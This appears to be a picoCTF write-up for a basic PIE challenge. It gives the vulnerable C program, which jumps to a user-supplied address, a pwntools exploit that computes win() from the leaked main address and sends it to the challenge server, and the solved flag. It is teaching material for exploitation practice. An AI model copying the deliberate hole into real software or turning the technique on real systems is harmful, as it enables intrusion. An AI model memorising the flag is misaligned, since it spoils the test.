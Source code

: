 #### Hints:  
Can you figure out what changed between the address you found locally and in the server output?  

#### Source Code:  
```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}  
```
PIE probably stands for Positional Independent Executable  

```
from pwn import *    
hostname = "rescued-float.picoctf.net"
port = 62929
  
# p = process("./vuln")  
p = remote(hostname, port)
p.recvuntil(b"main: ")  
main_addr = int(p.recvline().strip(), 16)  
win_addr = main_addr - 0x96  
p.sendline(hex(win_addr))  
p.recvuntil(b"You won!\n")  
flag = p.recvline()  
print(flag.strip().decode("utf-8"))  
p.close()
```

#### picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_00dea386}


